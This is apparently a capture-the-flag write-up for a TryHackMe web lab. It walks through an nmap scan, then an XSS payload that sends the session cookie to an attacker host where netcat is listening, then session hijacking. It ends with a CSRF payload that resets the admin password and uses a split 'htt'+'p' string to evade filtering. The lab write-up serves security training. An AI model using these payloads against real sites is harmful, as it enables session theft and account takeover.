## [Whats Your Name?](https://tryhackme.com/room/whatsyourname)

**Scanning**

```
nmap -sC -sV -O -p- worldwap.thm
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-16 12:52 CEST
Nmap scan report for worldwap.thm (10.10.226.82)
Host is up (0.049s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 40:41:2b:af:92:bb:af:12:55:67:af:b4:d2:bf:a5:3c (RSA)
|   256 25:82:73:74:8f:5b:1c:51:42:77:e0:3b:d6:92:63:de (ECDSA)
|_  256 8e:49:81:cb:c4:ce:02:e6:d6:b4:30:a8:f0:62:0e:98 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Welcome
|_Requested resource was /public/html/
8081/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 110.01 seconds
```
**Website Analysis**

I found a registration page:

![1](https://github.com/user-attachments/assets/e2bb91d5-909c-4bfd-9360-47bcf235c8b6)


After registering, I got a message saying I'm not verified, meaning I can't log in yet:

![2](https://github.com/user-attachments/assets/328e9914-3830-46a0-9a58-1335f9f0c580)


I noticed that the HttpOnly flag is not set on the session cookie, which makes it vulnerable to theft via XSS.

<img width="960" alt="3" src="https://github.com/user-attachments/assets/4a37c136-e6a0-4bb8-b73f-896f647b4b8f" />

**Stealing Moderator's Cookie**

I used a simple <script> tag XSS payload to exfiltrate the cookie:

```
<script>window.location=’http://attacker_ip:4444/?’+document.cookie;</script>
```

On my attacker machine:

```
nc -lvnp 4444
```
And I successfully received the cookie:

<img width="658" alt="1" src="https://github.com/user-attachments/assets/7694f411-d200-483c-8d5d-9740353ad77e" />



After that, I visited the login page:

![2](https://github.com/user-attachments/assets/f31d382a-65db-4f75-8416-4d018ccfcc7c)


Then manually replaced my cookie with the stolen one and refreshed the page:

<img width="784" alt="3" src="https://github.com/user-attachments/assets/79368cf0-371a-4cf4-a668-82b59ce4d323" />


![4](https://github.com/user-attachments/assets/5b44c220-abe6-44ee-964a-2dc93291a95f)


First flag obtained.

**Admin Bot - XSS Exploitation**

I discovered that the Admin Bot is vulnerable to XSS:

<img width="856" alt="2" src="https://github.com/user-attachments/assets/e27f480e-d663-492d-93fa-f882d4283bcb" />


<img width="541" alt="1" src="https://github.com/user-attachments/assets/1cd4e6de-96e3-4286-be39-8eeabf06e04a" />

**CSRF Password Reset Exploit**

I found a form for changing the password — but it was protected against manual attempts:


<img width="536" alt="1" src="https://github.com/user-attachments/assets/062aa50c-34fa-4c04-b2b5-0fc9298055bd" />


So I captured a valid password change request::


![2](https://github.com/user-attachments/assets/2319678e-6dc9-4500-913e-37d3bb5ad50e)

```
await fetch("http://login.worldwap.thm/change_password.php", {
    "credentials": "include",
    "headers": {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
        "Accept-Language": "en-US,en;q=0.5",
        "Content-Type": "application/x-www-form-urlencoded",
        "Upgrade-Insecure-Requests": "1",
        "Priority": "u=0, i"
    },
    "referrer": "http://login.worldwap.thm/change_password.php",
    "body": "new_password=test",
    "method": "POST",
    "mode": "cors"
});
```

And used a CSRF payload:

```
<script>var xhr = new XMLHttpRequest();
xhr.open("POST", "htt" + "p://login.worldwap.thm/change_password.php");
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.send('new_password=test');
</script>
```

After resetting the chat and logging out, I logged back in with the new credentials:

`login: admin
password: test`

<img width="858" alt="3" src="https://github.com/user-attachments/assets/4a4538bc-78be-417c-98dd-7b2a8512fd3a" />


**Second flag obtained.**
